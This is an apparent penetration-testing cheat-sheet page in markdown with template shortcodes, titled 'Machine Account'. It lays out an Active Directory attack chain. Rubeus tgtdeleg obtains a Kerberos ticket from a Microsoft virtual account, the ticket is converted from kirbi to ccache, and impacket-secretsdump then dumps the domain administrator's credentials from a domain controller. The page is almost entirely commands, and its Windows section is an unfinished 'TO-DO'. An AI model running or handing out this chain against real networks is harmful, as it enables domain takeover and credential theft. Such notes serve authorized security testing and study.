 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["machine account", "Microsoft virtual account", "active directory", "ad", "domain controller", "Windows", "rubeus", "kerberos"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

</div>

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 3. Convert kirbi to ccache

<div>

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

</div>

#### 4. Secrets Dump

<div>

```console
export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump -k -no-pass -just-dc-user administrator
```

</div>

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}
TO-DO
{{< /tabcontent >}}

<br>